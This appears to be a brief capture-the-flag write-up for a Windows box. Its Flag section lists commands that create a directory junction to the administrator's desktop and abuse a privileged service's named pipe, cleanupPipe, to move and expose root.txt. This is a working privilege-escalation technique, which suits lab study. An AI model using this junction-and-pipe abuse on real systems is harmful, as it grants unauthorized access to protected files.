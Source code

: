# Cleanup

![[Pasted image 20210716094326.png]]


# Reverse Eng

![[Pasted image 20210716103013.png]]


# Flag 


```bash
mlink /j \users\web\downloads\gotroot \users\administrator\desktop
echo CLEAN C:\users\web\Downloads\gotroot\root.txt1 > \\.\pipe\cleanupPipe
rmdir \users\web\downloads\gotroot
mkdir \users\web\downloads\gotroot
echo RESTORE C:\users\web\Downloads\gotroot\root.txt1 > \\.\pipe\cleanupPipe
```

